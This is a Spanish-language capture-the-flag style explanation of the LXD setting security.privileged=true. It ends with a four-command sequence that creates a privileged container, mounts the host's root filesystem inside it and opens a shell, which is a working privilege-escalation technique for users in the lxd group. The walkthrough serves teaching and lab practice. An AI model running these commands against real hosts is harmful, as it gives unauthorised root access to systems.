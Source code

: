 ```bash
security.privileged=true
```


### 🧠 Explicación técnica.

#### 🛠️ ¿Qué significa `security.privileged=true`?

Este parámetro se usa en **contenedores gestionados con LXD** para otorgarles acceso completo al **sistema del host**, **como si fueran root**.  
Es decir, el contenedor no tiene aislamiento y puede acceder directamente al kernel del host o incluso montar sistemas de archivos host.

- En sistemas LXD (Linux Containers), los contenedores están muy aislados.
    
- Pero si añadimos `security.privileged=true` en la configuración del contenedor, **se elimina parte de ese aislamiento**.
    
- Esto permite, por ejemplo, **montar la raíz `/` del sistema host** dentro del contenedor, accediendo a todo como root.

### 🧪 ¿Dónde se configura?

Cuando se crea un contenedor en LXD, puedes establecer esta opción así:

```bash
lxc init alpine exploit -c security.privileged=true
```

Aquí:

- `alpine` → es la imagen base (ligera y rápida).
    
- `exploit` → nombre del contenedor.
    
- `-c security.privileged=true` → la bandera que le otorga **privilegios root sobre el host**.
    

🔒 **⚠️ Peligroso:** Esto rompe el aislamiento por diseño de los contenedores.


### 📚 ¿Cómo lo descubrimos?

Esta bandera es ampliamente utilizada en escenarios de **escalada de privilegios** cuando el usuario pertenece al grupo `lxd`.

> Puedes encontrarla documentada en:
> 
> - La documentación oficial de LXD
>     
> - Cheatsheets de HackTricks y GTFOBins
>     
> - Máquinas de HTB como _Included_, donde el usuario `mike` pertenecía al grupo `lxd`.


## 🧪 Proceso resumido de explotación:

```bash
# 1. Crear el contenedor con privilegios
lxc init alpine exploit -c security.privileged=true

# 2. Montar la raíz del sistema host dentro del contenedor
lxc config device add exploit rootdisk disk source=/ path=/mnt/root

# 3. Iniciar el contenedor
lxc start exploit

# 4. Acceder al contenedor
lxc exec exploit /bin/sh

```